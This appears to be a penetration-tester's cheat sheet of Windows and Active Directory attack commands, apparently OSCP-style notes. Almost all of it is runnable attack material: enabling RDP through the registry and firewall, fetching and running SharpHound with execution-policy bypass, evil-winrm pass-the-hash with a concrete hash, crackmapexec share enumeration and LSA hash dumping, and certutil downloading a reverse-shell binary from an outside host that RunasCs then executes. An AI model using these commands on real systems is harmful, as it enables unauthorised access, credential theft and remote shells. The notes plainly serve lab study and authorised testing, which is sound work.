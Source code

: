 Windows: 

### open firewall
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```

### Bloodhound 

```
.\Sharphoun.exe -c all,group 

PS C:\Users\marcus> iwr -uri http://<ip>:8000/SharpHound.ps1 -Outfile SharpHound.ps1
iwr -uri http://<ip>:8000/SharpHound.ps1 -Outfile SharpHound.ps1

PS C:\Users\marcus> powershell -ep bypass

PS C:\Users\marcus> . .\SharpHound.ps1

PS C:\Users\marcus> Invoke-BloodHound -CollectionMethod All
```

EVIL-WinRM:

once you login with evil-winrm 

```bash
evil-winrm -i 192.168.173.165 -u 'svc_apache' -H 4FC1682833B24CF2225248D67DF7E618 -e "<kali-path>"

$Evil-WinRM PS C:\> Invoke-Binary

$Evil-WinRM PS C:\> Invoke-Binary <kali-Path> run <paramter> 
```

This will help to connect **`metasploit`** this is userfull

https://github.com/tedchen0001/OSCP-Notes/blob/master/AD.md

### Crackmapexec 

# Crackmapexec
```
crackmapexec smb <target> -u '' -p ''
crackmapexec smb <target> -u '' -p '' --users
crackmapexec smb 192.168.1.0/24 
crackmapexec smb target.txt
crackmapexec smb target.txt -u <usernmae> -p <password>

#extract password policy 
crackmapexec smb target.txt -u <usernmae> -p <password> --pass-pol

#enumarte shares
crackmapexec smb target.txt -u <usernmae> -p <password> --shares

#check for loggedon users 
crackmapexec smb target.txt -u <usernmae> -p <password> --loggedon-users

#extract the NTLM hashes 
crackmapexec smb target.txt -u <usernmae> -p <password>  --lsa

#using hash (. dot means local) 
crackmapexec smb target.txt -u Administrator -H <hash> -d .
```
## Runascs 
If creds are found and already logged into the machine then use this command to login as that user. 

```bash
PS C:\tools> certutil.exe -urlcache -split -f "http://192.168.45.184/rshell.exe" rshell.exe
****  Online  ****
  0000  ...
  1c00
CertUtil: -URLCache command completed successfully.
PS C:\tools> .\RunasCs.exe svc_mssql trustno1 "cmd /c c:\tools\rshell.exe"
````

### WPSCAN 

```
wpscan --update --url http://192.168.169.167/ --enumerate ap --plugins-detection aggressive
```

### LFI

check for cron jobs as well 

```
/etc/cron.daily/<file> 
```
